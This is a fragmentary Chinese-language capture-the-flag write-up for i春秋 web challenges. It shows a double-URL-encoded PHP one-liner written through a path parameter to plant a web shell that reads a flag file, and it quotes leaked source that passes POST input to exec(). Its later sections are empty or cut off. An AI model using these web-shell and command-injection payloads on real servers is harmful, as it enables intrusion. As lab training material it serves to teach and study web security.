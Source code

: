 接受两个参数，不能上跳，读取path的内容写到/upload/$file里面，

wp 往5211ec9dde53ee65bb02225117fba1e1.php?usern3me=<?php phpinfo();?>注入一句话，需要二次url编码，尝试成功

最后 c3368f5eb5f8367fd548b228bee69ef2.php/?path=http://127.0.0.1/5211ec9dde53ee65bb02225117fba1e1.php?usern3me=<?php $_REQUEST[0];?>&filename=1.php二次编码写入成功

访问/upload/1.php?0=cat ../flag_is_here.php

大佬的write-up地址 

https://www.cnblogs.com/haozhizhi/p/10786382.html

https://www.ichunqiu.com/course/56485

## EXEC（i春秋）
1.wp提示/index.php.swp 源码泄露，访问/.index.php.swp

2.源码

```
/*
flag in flag233.php
*/
 function check($number)
{
        $one = ord('1');
        $nine = ord('9');
        for ($i = 0; $i < strlen($number); $i++)
        {
                $digit = ord($number{$i});
                if ( ($digit >= $one) && ($digit <= $nine) )
                {
                        return false;
                }
        }
           return $number == '11259375';
}
if(isset($_GET[sign])&& check($_GET[sign])){
        setcookie('auth','tcp tunnel is forbidden!');
        if(isset($_POST['cmd'])){
                $command=$_POST[cmd];
                $result=exec($command);
                //echo $result;
        }
}else{
        die('no sign');
}
```

绕过check函数，将11259375转base64

3.



## fuzz (i春秋)
